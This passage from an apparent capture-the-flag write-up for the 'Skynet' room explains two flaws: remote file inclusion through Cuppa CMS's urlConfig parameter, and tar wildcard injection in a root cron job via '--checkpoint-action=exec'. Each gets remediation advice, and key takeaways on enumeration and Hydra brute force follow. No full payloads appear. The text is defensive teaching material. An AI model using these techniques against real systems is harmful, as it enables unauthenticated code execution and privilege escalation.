Cuppa CMS's /alertConfigField.php accepts a *urlConfig* GET parameter and passes it directly into PHP's *include()* function with no sanitization, no allow-list, and no requirement that the path be local. The attacker can specify any remote URL, including one they control, and PHP will fetch and execute it. This is *unauthenticated* RCE.

**Remediation:** Patch Cuppa CMS to the latest version (the project has been effectively abandoned, so the better path is to remove it). Set *allow_url_include = Off* in php.ini globally, since this is the PHP setting that enables remote URLs in include/require, and very few legitimate apps need it. Sanitize and allow-list any value that is ever passed into *include()* or *require()*, and prefer fixed paths over user-controlled ones.

### tar Wildcard Injection in Root Cron (CWE-78 + CWE-77: argument injection)

The root cron runs a backup script that calls tar against a glob (*\**) in a directory that a lower-privileged service can write into. tar interprets any positional argument starting with *--* as a command-line option, so attacker-controlled filenames are parsed as flags. *--checkpoint-action=exec* gives the attacker a clean command-execution primitive under root.

**Remediation:** Never use shell wildcards on the command line of a tool that interprets dashes as option flags. The portable fix is to prepend an explicit *--* end-of-options marker (*tar czf backup.tgz -- \**), or better, use *find ... -print0 | xargs -0 tar* to avoid the wildcard entirely. As a defense-in-depth measure, ensure the directory being backed up cannot be written to by any user other than root. The same class of bug exists for any cron'd tool that accepts wildcards (rsync, chown, chmod, scp) and a periodic audit of root's crontab against any world-writable or service-writable path is the right operational control.

---

## Key Takeaways

- **enum4linux is the right first move against any open Samba port.** Username enumeration via SID resolution is a free, unauthenticated foothold that converts every downstream authentication step from a two-axis brute force (user, password) into a one-axis one (password). The whole Skynet chain rests on knowing *milesdyson* is a real user before the first Hydra attempt.
- **A wordlist is sometimes the loot.** log1.txt looked like a Samba share artifact at first glance and turned out to be the exact password rotation history Hydra needed. Read every file on every accessible share, even the ones that look operational rather than sensitive. The line between log file and credential dump is *whatever the operator wrote into the log*.
- **Webmail compromise is a credential factory.** Mailboxes hold every password reset link, every "your new password is X" email, every account verification code. Compromising one mailbox quietly compromises every account whose recovery flow lands there. Hydra against SquirrelMail in this room is small from a CVE standpoint and *load-bearing* from a chain standpoint.
- **Remote File Inclusion is rarer than it used to be, and it still kills.** *allow_url_include* defaults to off on modern PHP exactly because RFI is a one-line bug from "user input lands in include()" to "RCE as the web user." Cuppa CMS is abandoned and unpatched, which is the actual lesson: every CMS install needs a maintenance owner, and unmaintained installs need to be removed, not patched in place.
- **tar wildcard injection is a classic for a reason.** It only needs three things: a privileged user (root cron), a writable directory the privileged user globs, and a backup tool that interprets dashes as flags. Real environments produce all three combinations constantly (logrotate, backups, cleanup scripts), and the fix (a single *--* on the command line or *find -print0 | xargs -0*) is one line. Always audit cron and systemd timers for any wildcard touching a service-writable path.
